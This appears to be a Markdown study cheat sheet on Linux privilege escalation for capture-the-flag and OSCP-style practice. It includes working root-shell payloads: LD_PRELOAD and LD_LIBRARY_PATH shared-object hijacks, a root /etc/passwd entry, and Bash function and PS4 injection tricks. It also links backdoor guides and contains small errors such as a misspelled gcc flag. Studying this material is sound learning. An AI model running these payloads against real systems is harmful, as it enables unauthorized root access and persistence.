 # Privesc

Privilege Escalation involves increasing permissions/rights on the target machine. 

This can be done by exploiting a vulnerability/misconfiguration on a system to gain unauthorized access to resources that are usually restricted from the users.

Being able to "prives" may allow you to:
- install malicious softwares, edit software configurations or more generally enable persistence via **backdoors** (such as in this [article](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) or in this [example](https://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html))
- change passwords
- bypass access control or "pivot" (lateral movement)
- get `root.txt` flag :)

## Kernel Exploits

> [Dirty COW](https://dirtycow.ninja/) for example.

1. Enumerate kernel version (with `uname -a` for instance)
2. Look for matching exploit (`searchsploit`, Google, GitHub, etc.)

- [linux-exploit-suggester-2.pl](https://github.com/jondonas/linux-exploit-suggester-2)

## Read/write sensitive files

- If we can write into `/etc/passwd`, we can enter a know password for the **root** user or simply create a new user by:
    + computing a password hash: `openssl passwd -1 -salt [salt] [password]`
    + adding a new entry to `/etc/passwd`: `<USERNAME>:<HASH>:0:0:root:/root:/bin/bash` _(it will take precedent over the hash in `/etc/shadow`)_

> The "`x`" in the second field of this file instructs Linux to look for the password hash in `/etc/shadow`

> If there is no "`x`", Linux interprets it as the user having no password

- `/etc/shadow`:
    + if we're able to read its content, we might be able to crack passwords using `john` or `hashcat`
    + if we're able to modify it, we can replace the root user's password hash with one we know

- a user may have created insecure backups for sensitive files (ssh keys, `/etc/passwd`, etc.)

### Cron jobs

Cron jobs are programs that are run periodically and scheduled at specific times by users.

> By default, cron jobs are run with `/bin/sh` with limited environment variables.

System-wide crontab is located at `/etc/crontab`.

User crontabs are usually located in:
- `/var/spool/cron`
- `/var/spool/cron/crontabs`

- We can abuse the crontab `PATH` environment variable if no absolute path for a specific program is specified in `/etc/crontab`

- Beware of wildcards (`*`)

___

## `sudo` misconfiguration

> `/etc/sudoers`

- `sudo -l`: list programs a user is allowed to run
    + `NOPASSWD` (particularly interesting)

- `sudo -u <username> <program>`

### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is a list of sequences to "escape" programs and (often) spawn a shell.

Some programs do not appear in this list but can be used to leak sensible information.

Example: `sudo apache2 -f /etc/passwd`

### Environment variables

- `LD_PRELOAD` allows us to load a shared object (`.so`) before any others.
    + if `LD_PRELOAD` is preserved via `env_keep` in `sudo` configuration, then we can create a custom `.so` in which we will place an `init()` function and then perform a privesc:

        ```c
        #include <stdio.h>    
        #include <sys/types.h>    
        #include <stdlib.h>

        void init() {
            unsetenv("LD_PRELOAD");
            setresuid(0,0,0);
            system("/bin/bash -p");
        }
        ```

        ```bash
        $ gcc -fPIC -shared -nostaticfiles preload.c -o /tmp/preload.so
        $ sudo LD_PRELOAD=/tmp/preload.so find
        ```

- `LD_LIBRARY_PATH` contains a set of directories where shared libraries are searched for first.
    + `ldd <program>` will print shared object dependencies used by a program
    + if `LD_LIBRARY_PATH` is preserved via `env_keep` in `sudo` configuration, we can create a shared library with the same name as one used by a program so that the program will load ours:
        
        ```c
        #include <stdio.h>    
        #include <stdlib.h>

        static void hijack() __attribute__((constructor));

        void hijack() {
            unsetenv("LD_LIBRARY_PATH");
            setresuid(0,0,0);
            system("/bin/bash -p");
        }
        ```

        ```bash
        $ ldd <program>
            ...
            libcrypt.so.1 => /lib/libcrypt.so.1
            ...
        $ gcc -fPIC -shared library_path.c -o /tmp/libcrypt.so.1
        $ sudo LD_LIBRARY_PATH=/tmp/ <program>
        ```

___

## SUID/SGID Files

A **SUID/SGID file** is a binary that can be executed with the permissions of the owner/group of the file.

- Finding SUID: `find / -perm -u=s -type f 2>/dev/null`
- Finding SGID: `find / -perm -g=s -type f 2>/dev/null`f

> Using `strace`, `ltrace`, `strings` on these binaries could help during the privesc process

- In Bash versions prior to 4.2-048 allows us to define Bash functions with forward slashes (`/`) in their names:

```bash
$ function /usr/sbin/service { /bin/bash -p; }
$ export -f /usr/sbin/service 
```

- In Bash versions prior to 4.4, the **PS4** environment variable is inherited by shells:

```bash
$ env -i SHELLOPTS=xtrace PS4='$(<payload>)' <program> 
```

___

## Plaintext passwords

- Looking at `*_history` files in home directories, plus configuration files

___

## Unsecure mounted directories

- NFS shares are configured in `/etc/exports`

    > By default, created files inherit the remote user’s id and group id (as owner and group respectively), even if they don’t exist on the NFS server.

    + `showmount -e <target`
        * `mount -o rw,vers=2 <target>:<share> <local_directory>`
            - `nfs-showmount` (`nmap`)
    + if `no_root_squash` option is enabled and the remote user is **root** (uid=0), created files inherit the remote user's id and group id.

___

## Useful links/tools

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS#linpeas---linux-privilege-escalation-awesome-script)
- [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [GTFOBins](https://gtfobins.github.io/)
- [Linux Privilege Escalation Checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [PayloadsAllTheThings - Linux Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)
- [Total OSCP Guide - Linux Privesc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
- [A guide to Linux Privilege Escalation](https://payatu.com/guide-linux-privilege-escalation)
- [Tib3rius - Linux Privilege Escalation for OSCP & Beyond!](https://www.udemy.com/course/linux-privilege-escalation/)
- [THM - Common Linux Privesc](https://tryhackme.com/room/commonlinuxprivesc)
- [THM - Linux PrivEsc Arena](https://tryhackme.com/room/linuxprivescarena)
- [THM - Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)